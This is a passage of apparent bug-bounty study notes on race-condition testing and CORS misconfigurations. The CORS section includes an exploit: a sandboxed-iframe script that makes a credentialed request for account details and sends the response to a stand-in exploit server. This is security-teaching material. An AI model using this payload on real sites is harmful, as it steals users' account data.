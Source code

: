 #### For sending multiple request into the server you could just use the cURL command in the linux terminal by chaining them using & sign.

### <font color="red">step 3-</font> Check the Results:
#### <font color="red">Note </font > that whether your attack succeeds depends on the server’s process-scheduling algorithm, which is a matter of luck. However, the more requests you send within a short time frame, the more likely your attack will succeed.

#### Also, many tests for race conditions won’t succeed the first time, so it’s a good idea to try a few more times before giving up.
#### <font color="red">step4- </font > Create a POC


## <font color="red">Escalation</font>:
#### The severity of race conditions depends on the impacted functionality. When determining the impact of a specific race condition, pay attention to how much an attacker can potentially gain in terms of monetary reward or social influence.


## <font color="red">Automation</font>:



# <font color="red">CORS</font>

cross origin resource sharing is a browser mechanism which enables controlled access to resources located outside of a given domain. it extends and adds flexibility to the same origin policy (SOP). 

<font color="red">SOP:</font> The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain. 

The same-origin policy is very restrictive and consequently various approaches have been devised to circumvent the constraints. Many websites interact with subdomains or third-party sites in a way that requires full cross-origin access. A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).

<font color="red">cors vulnerability with trusted null Origin</font>  :
sometimes the sensitive endpoint of the website may contain the 
`Access-Control-Allow-Credentials` which suggesting that it may support cors .

so with this you could test the `Origin: null` and see if the response contains the `Access-Control-Allow-Origin: null` or not .

exploit :
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','vulnerable_site.com/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='exploit_server.com/log?key='+encodeURIComponent(this.responseText); }; </script>"></iframe>
```
the use of iframe sandbox as this generates a null origin request. 
